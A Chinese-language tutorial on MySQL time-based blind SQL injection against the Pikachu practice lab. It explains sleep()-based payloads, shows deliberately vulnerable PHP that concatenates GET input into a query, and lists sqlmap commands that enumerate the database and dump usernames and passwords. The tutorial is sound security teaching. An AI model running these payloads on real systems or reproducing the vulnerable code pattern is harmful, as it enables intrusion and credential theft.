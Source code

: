## 0x00 时间注入攻击原理
时间注入又名延时注入，属于盲注入的一种。通常是某个注入点无法通过布尔盲注获取数据时，采用的一种突破技巧。  
在 mysql 中， 函数 sleep() 是延时的意思，sleep(10)就是让数据库延时 10 秒返回内容。  
判断注入可以使用 and sleep() 这个函数让数据库延迟返回，此时根据网页响应时间进行判断数据库是否执行了sleep函数，根据这个原理来判断是否存在 SQL 时间注入。

## 0x01 时间注入攻击方法
mysql 延时注入用到的函数 sleep() 、if()、substring()；
select if(2>1,sleep(10),0) 2>1 这个部分就是你注入要构造的 SQL 语句。  
select if(length(database())>1,sleep(5),0) 这个就是查询当前库大于 1 就会延时 5 秒执行。  
如果想要获取数据内容，可以用截取字符串的方法进行字符对比，如果相同就进行延时。这样就能获取字符接着再拼接就是当当前库的内容。

## 0x02 时间注入代码分析

```php
//处理用户通过GET请求提交的表单
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理，直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

上述代码中，无论我们输入什么数据，合法的或者不合法的也好，我们无法看到任何回显信息，所以布尔盲注无法使用，只能通过浏览器的延迟响应等待时间来判断是否存在注入，这就是时间盲注，或称为延迟盲注。

## 0x03 利用sqlmap进行延迟注入
在黑盒模式下可以使用 sqlmap 对注入检测。sqlmap 支持多种数据库注入，而且支持多种注入方式。
payload如下：  
```bash
sqlmap -u "http://192.168.0.134/06/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T
```
其中
- -u 表示检测的 url；
- -p 指定的检测参数；
- -v 显示调试模式；
- --technique=T 检测方法为时间注入；  

sqlmap检测为时间注入，接下来通过这个注入获取数据库名，表名，字段名和数据库信息等敏感信息的获取。  
```bash
sqlmap -u
"http://192.168.0.134/06/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name
-v 1 --technique=T --current-user --current-db --batch
```
- --current-user 获取用户；
- --current-db 当前库；
- --batch 使用默认模式；  

得到当前用户为 root@loalhost ，当前数据库为 pikachu。  
接着获取表：
- -D 指定数据库 ；
- --tables 获取表；

```bash
sqlmap -u
"http://192.168.0.134/06/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name
-v 1 --technique=T  -D pikachu --tables --batch
```
得到当前表后，获取指定表中的全部字段。
- -T users  指定表名；
- --columns 获取指定表的全部字段；
```bash
sqlmap -u
"http://192.168.0.134/06/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name
-v 1 --technique=T   -D pikachu -T users --columns --batch
```

- C "id,username,password" 指定查询的表名；
- --dump 导出数据 

```bash
sqlmap -u
"http://192.168.0.134/06/vul/sqli/sqli_blind_t.php?name=1&submit=%E6%9F%A5%E8%AF%A2" -p name -v 1 --technique=T -D pikachu -T users -C "id,username,password" --dump --batch
```
以上是利用sqlmap进行时间注入的简单流程记录。